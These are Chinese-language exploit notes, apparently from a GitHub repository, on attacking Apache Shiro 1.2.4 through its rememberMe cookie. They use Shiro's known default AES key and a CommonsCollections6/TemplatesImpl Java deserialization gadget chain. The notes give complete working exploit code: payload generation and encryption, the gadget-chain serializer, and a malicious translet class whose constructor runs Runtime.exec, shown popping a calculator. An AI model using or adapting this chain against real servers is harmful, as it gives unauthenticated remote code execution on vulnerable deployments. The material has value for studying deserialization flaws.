 # CommonsCollections6-Shiro1.2.4笔记

## payload生成



简单打包个shiro项目到tomcat运行，用默认密钥，生成payload

```Java
byte[] payloads = new CommonsCollections6().getPayload("calc.exe");
ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(payloads));
objectInputStream.readObject();
AesCipherService aes = new AesCipherService();
byte[] key =
java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
ByteSource ciphertext = aes.encrypt(payloads, key);
System.out.printf(ciphertext.toString());
```

直接覆盖`rememberMe`后发现报错![](img/1.png)

根据报错最后一行我们看看`org.apache.shiro.io.ClassResolvingObjectInputStream`

![](img/2.png)

看看这个`ClassUtils.forName`

跟入后，发现这里是调用`loadClass`我们继续跟入

![](img/3.png)

看着是重写了，classLoader内部用到了 org.apache.catalina.loader.ParallelWebappClassLoader#loadClass ![](img/4.png)

最后报错的类是 org.apache.commons.collections.Transformer 

![](img/5.png)

这篇文章https://blog.zsxsoft.com/post/35

这里最终得到结论如果反序列化流中包含非Java自身的数组，则会出现无法加载类的错误

这里解决方式是配合TemplatesImpl去加载字节码，调用它的newTransformer即可

后面就是配合触发LazyMap的get方法触发整个过程![](img/6.png)

![](img/7.png)

## 最终payload

```Java
ClassPool pool = ClassPool.getDefault();
CtClass clazz =
    pool.get(test.class.getName());
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][]{clazz.toBytecode()});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

Transformer transformer = new InvokerTransformer("getClass", null, null);
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformer);

TiedMapEntry tme = new TiedMapEntry(outerMap, obj);
HashMap expMap = new HashMap();
expMap.put(tme,"keykey");
outerMap.remove(obj);
setFieldValue(transformer, "iMethodName", "newTransformer");

ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(expMap);
oos.close();
return barr.toByteArray();
```

test类

```Java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class test extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public test() throws Exception {
        super();
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

测试成功，弹出计算器

![](img/8.png)
